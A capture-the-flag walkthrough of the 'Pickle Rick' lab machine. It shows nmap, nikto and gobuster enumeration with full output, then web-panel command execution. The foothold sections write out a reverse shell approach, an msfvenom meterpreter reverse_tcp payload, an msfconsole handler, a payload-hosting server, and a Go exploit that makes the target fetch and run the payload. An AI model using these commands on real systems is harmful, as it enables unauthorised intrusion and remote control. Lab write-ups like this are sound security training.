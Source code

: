 
# Walkthrough: Pickle Rick

## Enumeration

Before an attacker can exploit a machine, they must gather intelligence about it. There are a few common methods used to gather information about a device shown below.

### NMAP

NMAP is a tool that helps discover open hosts and ports, and aids in determining what services are running on the open ports. NMAP has a host of other features as well, and I encourage you to check out NMAP's [website](https://nmap.org) for more information.

Command:

```bash
nmap -A -p- -T5 -oN nmap/all_ports $TARGET
```

Results:

```bash
Nmap scan report for 10.10.251.49
Host is up (0.082s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 69:7d:80:23:5f:6a:26:cd:88:d5:bd:44:2e:4d:4a:bd (RSA)
|   256 9f:2e:51:e2:56:f4:ce:ee:b4:74:11:58:2a:42:ca:d8 (ECDSA)
|_  256 0e:6c:77:82:de:6b:3e:1a:ab:27:cb:4e:64:40:e6:eb (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), Linux 5.4 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Sony Android TV (Android 5.0) (92%), Android 5.0 - 6.0.1 (Linux 3.4) (92%), Android 7.1.1 - 7.1.2 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1720/tcp)
HOP RTT      ADDRESS
1   12.81 ms 10.6.0.1
2   ... 3
4   81.41 ms 10.10.251.49

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 88.34 seconds
```

### Website (Nikto)

Command:

```bash
nikto -h http://$TARGET -output nikto/niktoScan.txt
```

Results:

```bash
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.251.49
+ Target Hostname:    10.10.251.49
+ Target Port:        80
+ Start Time:         2022-12-10 17:42:55 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: 426, size: 5818ccf125686, mtime: gzip
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ Cookie PHPSESSID created without the httponly flag
+ OSVDB-3233: /icons/README: Apache default file found.
+ /login.php: Admin login page/section found.
+ 7889 requests: 0 error(s) and 9 item(s) reported on remote host
+ End Time:           2022-12-10 17:54:57 (GMT-5) (722 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

### Website (Gobuster)

Command:

```bash
gobuster dir -u http://$TARGET -w <path_to_wordlist> -x .php
```

Results:

```bash
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.251.49/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-directories-lowercase.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/12/10 17:28:40 Starting gobuster in directory enumeration mode
===============================================================
/login.php            (Status: 200) [Size: 882]
/assets               (Status: 301) [Size: 313] [--> http://10.10.251.49/assets/]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]                   
/server-status        (Status: 403) [Size: 300]                                  
/denied.php           (Status: 302) [Size: 0] [--> /login.php]                   
Progress: 41284 / 112330 (36.75%)                                               [ERROR] 2022/12/10 17:29:49 [!] parse "http://10.10.251.49/error\x1f_log": net/url: invalid control character in URL
                                                                                 
===============================================================
2022/12/10 17:31:46 Finished
===============================================================
```

### Website (Manual)

When enumerating a website, it is always good to manually interact with the site and get an idea of what the target does. Looking at the source of the target page may leak information or give the attacker a better understanding of the system they are interacting with.

When we navigate to the IP address, we get the following page.

![MainPage](../media/pictures/picklerick_mainpage.png)

This tells us the username and password is hidden somewhere we most likely have access to. Taking a look at the source of this page reveals the username.

![MainPageSource](../media/pictures/picklerick_mainpage_source.png)

The next step in manual enumeration is to check for a `robots.txt` file. This file may give clues to hidden directories and pages. Navigating to the `robots.txt` file, we find a strange string. Given the hint on the main page and the username discovered in the source, this may be the password.

To test that we have the credentials, we can go to the `/login.php` page discovered by `Gobuster` and attempt a login.

![LoginPage](../media/pictures/picklerick_login.png)

When we enter what we discovered, we are taken to a "Command Panel" page. Entering `whoami` in the "Commands" input, displays a username, indicating we are running terminal commands.

![CommandPanel](../media/pictures/picklerick_portal1.png)

## Foothold (Manual)

Now that we have command execution, we can attempt to gain a foothold on the target machine. To do this, we can use a reverse shell.  A list of common reverse shell commands can be found on the [pentestmonkey reverse shell cheat sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). All we need to to test these out is replace `10.0.0.1` with out attack machine IP address and run `nc -lvnp <OurIP>` to listen for the reverse shell. 

Once a reverse shell is established, it is useful to stabalize the shell by running `python3 -c "import pty;pty.spawn('/bin/bash')"` , pressing `CTRL+Z`, typing in `stty raw -echo;fg`, then pressing enter twice. 

*Note: If you stabalize your shell using this method and the target shell crashes, you terminal session will lock up and need to be exited.*

## Foothold (Automated)

This repository contains a program to automatically gain a foothold on the target machine.

### MSFVenom

To create the MSFVenom payload that will be pulled down by target, use the following command:

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<YourIP> LPORT=<PORT> -f elf -o revshell --platform linux -a x86
```

### MSFConsole

To get the meterpreter payload to successfully connect back to your machine, you need to start a meterpreter session in msfconsole. To do this, run the following commands:

```bash
msfconsole -q
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set lhost <yourip>
set lport <port>
run
```

### Simple Server

To get the target to pull down the msfvenom payload, you need to have a server serving the file. A simple way to do this is to run `python3 -m http.server <port>`. This command will spin up a simple python3 file server in the current directory that the server can contact and grab the meterpreter payload from.

### Execution

Using `Go Run`:

```bash
go run exploit.go -i $TARGET -c <yourIP>  -p <server_port>
```

To compile & run:

```bash
go mod init exploit.go
go build .
./exploit -i $TARGET -c <yourIP> -p <server_port>
```

### Example

Gaining Foothold: 

![Execution](../media/pictures/picklerick_rce1.png)

Privilege Escalation:

![PrivEsc1](../media/pictures/picklerick_privesc1.png)

![PrivEsc2](../media/pictures/picklerick_privesc2.png)
